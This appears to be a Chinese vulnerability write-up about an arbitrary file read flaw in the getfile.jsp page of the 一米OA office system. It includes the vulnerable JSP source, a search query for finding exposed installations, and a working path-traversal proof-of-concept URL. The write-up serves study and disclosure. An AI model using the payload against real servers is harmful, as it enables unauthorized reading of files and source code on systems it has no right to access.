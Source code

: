 # 一米OA getfile.jsp 任意文件读取漏洞

## 漏洞描述

一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>一米OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="一米OA"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1628483166897-10963648-1494-4ea3-a76b-e5865f0d0f00.png)

出现漏洞的文件

```php
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

首先验证 user 传参是否为空, 需要对 user 参数任意赋值

```php
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

接着接受3个参数 `filename, extname, prop`

```php
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径
所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取

```php
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

验证POC

```php
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```

![img](../../../.vuepress/public/img/1628483231725-7feffe1e-0514-4149-8afc-57d0c9ce1dad.png)



若有收获，就点个赞吧